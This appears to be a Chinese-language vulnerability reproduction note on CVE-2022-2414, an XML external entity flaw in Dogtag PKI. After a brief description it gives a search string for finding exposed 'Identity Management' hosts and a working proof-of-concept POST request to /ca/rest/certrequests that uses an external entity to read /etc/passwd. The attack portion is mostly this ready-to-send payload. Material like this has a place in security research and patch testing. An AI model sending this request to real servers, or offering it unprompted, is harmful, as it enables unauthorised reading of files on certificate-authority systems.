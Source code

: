 # Dogtag PKI XML实体注入漏洞 CVE-2022-2414

## 漏洞描述

Dogtag PKI 的XML解析器存在安全漏洞，该漏洞源于在分析 XML 文档时访问外部实体可能会导致 XML 外部实体 （XXE） 攻击。此漏洞允许远程攻击者通过发送特制的 HTTP 请求来潜在地检索任意文件的内容。

## 漏洞影响

```
Dogtag PKI
```

## 网络测绘

```
title="Identity Management"
```

## 漏洞复现

登录页面

![image-20221024101747499](images/202210241017604.png)

验证POC

```
POST /ca/rest/certrequests
Content-Type: application/xml

<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<CertEnrollmentRequest>
  <Attributes/>
  <ProfileID>&ent;</ProfileID>
</CertEnrollmentRequest>
```

![image-20221024101759219](images/202210241017273.png)